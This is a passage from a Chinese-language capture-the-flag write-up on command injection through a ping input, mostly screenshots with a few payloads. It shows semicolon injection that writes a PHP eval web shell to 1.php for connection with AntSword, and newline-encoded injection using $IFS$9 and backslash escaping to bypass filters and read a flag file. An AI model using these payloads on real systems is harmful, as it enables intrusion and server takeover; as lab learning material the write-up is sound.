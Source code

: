 ![img](https://s2.loli.net/2025/01/18/FefaRmikCTz5pb1.png)

#### 过滤运算符

这里把||，&和（都过滤了，但是忽略了；的存在，所以老套路即可

![img](https://s2.loli.net/2025/01/18/WIh3KFbQq1jUyTi.png)

尝试了一下其他方法：一句话木马

127.0.0.1;echo -e '<?php @eval($_POST['cmd'])?>' >1.php

输入如下语句，将一句话木马写进了1.php中间之后再次ls，结果如下

![img](https://s2.loli.net/2025/01/18/fZucFPENYv5Vnsh.png)

尝试用蚁剑连接

成功进入

![img](https://s2.loli.net/2025/01/18/t5fpQ4d6Gqo1iDY.png)

之后flag点击就送就行了

#### 综合测试：

这里发现将管道符，连接符，；都屏蔽了，于是尝试使用换行符来进行命令操作，使用url编码进行换行符操作

输入

%0als，显示如下界面

![img](https://s2.loli.net/2025/01/18/D2QEdYgJhmuMLPB.png)

发现空格屏蔽，使用$ISF$9,flag使用转义符\绕过

127.0.0.1%0Als$IFS$9\fl\ag_is_here

得到如下结果

![img](https://cdn.nlark.com/yuque/0/2025/png/42552309/1737033555624-533c5091-0092-4fd1-9f58-3a26966f9cf9.png)

cd进去tac一下即可

输入

127.0.0.1%0acd$IFS$9fl\ag_is_here%0atac$IFS$9flag_946661602749.php

![img](https://cdn.nlark.com/yuque/0/2025/png/42552309/1737033691750-31a3dd9b-5e0b-4a9b-b56d-b3481ea9eb31.png)

得到答案
